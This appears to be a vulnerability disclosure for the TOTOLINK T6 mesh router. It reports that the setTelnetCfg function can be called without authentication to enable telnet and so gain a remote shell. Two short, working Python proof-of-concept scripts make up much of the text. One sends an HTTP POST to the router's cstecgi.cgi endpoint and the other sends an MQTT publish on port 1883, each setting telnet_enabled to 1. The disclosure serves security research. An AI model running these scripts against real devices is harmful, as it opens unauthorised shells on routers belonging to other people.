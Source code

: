 # Information

**Vendor of the products:** TOTOLINK

**Vendor's website:** [TOTOLINK](https://www.totolink.net/)

**Affected products:** [T6](https://www.totolink.net/home/menu/newstpl/menu_newstpl/products/id/190.html)

**Affected firmware version:** V4.1.5cu.748_B20211015

**Firmware download address:** [Download Page](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/190/ids/36.html)

# Overview

An attacker can have remote shell on TOTOLINK Mesh Wifi T6 by turn on the `telnet` service.

# Vulnerability details

`setTelnetCfg` can be call to enable `telnet` service without authen. An attacker can send HTTP POST packet.<br>
Or attacker can send `MQTT` packet on port `1883`.

# POC HTTP

```python
import requests, sys

if len(sys.argv) != 2:
    data = b'''
    {
        "topicurl":"setTelnetCfg",
        "telnet_enabled":"1"
    }
    '''

    url = f"http://192.168.0.1/cgi-bin/cstecgi.cgi"

    requests.post(url, data=data)
```

# POC MQTT

```python
import paho.mqtt.client as mqtt
import sys

if len(sys.argv) != 2:
    data = b'''
    {
    "telnet_enabled":"1"
    }
    '''

    client = mqtt.Client()
    client.connect("192.168.0.1", 1883, 60)
    client.publish("totolink/router/setTelnetCfg",data)
```

# POC Video
[](https://www.youtube.com/watch?v=XeKu3tfeSME)